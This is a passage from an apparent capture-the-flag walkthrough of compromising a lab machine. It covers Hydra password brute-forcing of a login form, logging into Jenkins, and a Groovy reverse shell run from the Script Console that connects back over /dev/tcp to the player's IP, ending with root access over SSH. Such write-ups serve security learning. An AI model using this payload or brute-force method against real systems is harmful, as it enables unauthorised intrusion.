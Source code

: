      * -s: port number
     * -f: Stop brute forcing the login page once the password is found.
     * -V: Display the attempts being made by Hydra and other details.
     * http-form-post: Indicates the type of form being used (i.e. POST).
     * ^USER^: tells Hydra to use the username or list in the field.
     * ^PASS^: tells Hydra to use the password list supplied.
     * -l: indicates a single username e.g. “admin”(use -L for a username list).
     * -P: indicates use the following password list e.g. rockyou.txt
     ```

* Using found creds to login to `jenkins`

* A quick search on Google reveals a number of ways to gain a reverse shell by exploiting vulnerabilities in Jenkins. The method I used was to exploit the Script Console feature on Jenkins (see references).

     ![img](https://i.imgur.com/Q0p4wB4.png)

* To create a reverse shell on the system, we need to use Groovy script. Since it is basically Java, we can use a Java reverse shell from pentestmonkey.

     ```zsh
     r = Runtime.getRuntime()
     p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.17.4.40/1337;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
     p.waitFor()
     ```

* reverse connection is active
  
  ![img](https://i.imgur.com/4oJX935.png)

* room developer must love `/opt` dir, without hint or heating your head against wall this is no way to find why it's there

     ![img](https://i.imgur.com/2zdrVfH.png)

* using the found creds login via SSH as root!

* got the damn ROOt!!!

     ![img](https://i.imgur.com/DQyAPFi.png)

---


<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>



<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="anir0y" data-description="Support me on Buy me a coffee!" data-message="" data-color="#5F7FFF" data-position="Right" data-x_margin="18" data-y_margin="18"></script>


